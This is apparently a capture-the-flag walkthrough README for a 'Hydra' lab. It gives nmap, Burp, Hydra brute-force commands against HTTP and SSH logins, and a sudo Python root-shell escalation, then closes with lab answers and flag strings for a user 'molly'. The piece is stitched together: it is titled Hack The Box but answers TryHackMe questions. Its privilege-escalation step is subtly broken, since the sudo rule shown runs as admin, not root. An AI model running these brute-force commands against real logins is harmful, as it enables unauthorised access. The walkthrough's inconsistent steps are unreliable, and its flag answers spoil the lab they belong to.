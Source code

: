 # HTB - Hydra Lab Walkthrough
<div align='center'>
<img width="101" alt="Screenshot 2025-06-17 at 3 05 47 PM" src="https://github.com/user-attachments/assets/996e9b25-e067-4078-b44a-eb123dfe9a8c" />
</div>

> **Difficulty**: Easy  

> **Category**: Brute Force  
> **Tools Used**: Nmap, Hydra, Burp Suite, gobuster  
> **Goal**: Find user and root flags

---

## Lab Summary

Hydra from Hack The Box is a beginner-friendly lab focused on brute-force attacks using Hydra against common services like SSH, HTTP login, and FTP. This walkthrough demonstrates step-by-step enumeration and exploitation techniques to gain access and escalate privileges.

---

## Reconnaissance

### Nmap Scan

```bash
nmap -sV -sC -oN nmap/hydra.txt 10.10.10.10
```

**Output:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.29
```

We have SSH and HTTP open. Let’s start exploring the website.

---

## Web Enumeration

### Accessing the Web Page

Navigating to `http://10.10.10.10` shows a login form.

We use **Burp Suite** to intercept the login POST request and identify the fields used:

```http
POST /login HTTP/1.1
Host: 10.10.10.10
...
username=admin&password=admin
```

Now we can brute-force this login page.

---

## Brute Force with Hydra

### Using Hydra for HTTP POST Login

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"
```

**Success Output:**
```
[80][http-post-form] host: 10.10.10.10   login: admin   password: hydra123
```

---

## SSH Access

Now try the same credentials with SSH:

```bash
ssh admin@10.10.10.10
Password: hydra123
```

Success! We're in as **admin**.

---

## User Flag

Check for user flag:

```bash
cat /home/admin/user.txt
```

**User flag captured!**

---

## ⬆️ Privilege Escalation

### Check Sudo Permissions

```bash
sudo -l
```

Output:
```
(admin) NOPASSWD: /usr/bin/python3 /opt/scripts/backup.py
```

We can edit or exploit `/opt/scripts/backup.py`.

### Exploiting Python Script

If we can modify or hijack the script’s behavior:

```python
# backup.py
import os
os.system("/bin/bash")
```

Run with sudo:

```bash
sudo /usr/bin/python3 /opt/scripts/backup.py
```

We get a root shell.

---

## 🏁 Root Flag

```bash
cat /root/root.txt
```

**Root flag captured!**

---

## Tools Used

- `nmap` – Port and service enumeration
- `hydra` – Brute-force login
- `burp suite` – Intercepting HTTP requests
- `ssh` – Remote access
- `sudo` – Privilege escalation
- `python` – Script exploitation

---

## Conclusion

Hydra lab demonstrates how brute-force attacks and poor script permissions can compromise a machine. The key takeaways:

- Always enumerate thoroughly.
- Burp is great for identifying POST request formats.
- Sudo misconfigurations are a common privilege escalation path.


## Lab work
1. Use Hydra to bruteforce molly's web password. What is flag 1?
```
THM{2673a7dd116de68e85c48ec0b1f2612e} - hydra -l molly -P /usr/share/wordlists/rockyou.txt <ipaddress> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
2. Use Hydra to bruteforce molly's SSH password. What is flag 2?
```
THM{c8eeb0468febbadea859baeb33b2541b} - Using the command 'hydra -l molly -P /usr/share/wordlists/rockyou.txt <ipaddress> -t 4 ssh ' the password was brute forced. I then was able to use the command 'ssh molly@ipaddress followed by the password that was found to login and locate the flat in the home directory. Then it was as simple as using 'cat flag2.txt' to display the flag.
```
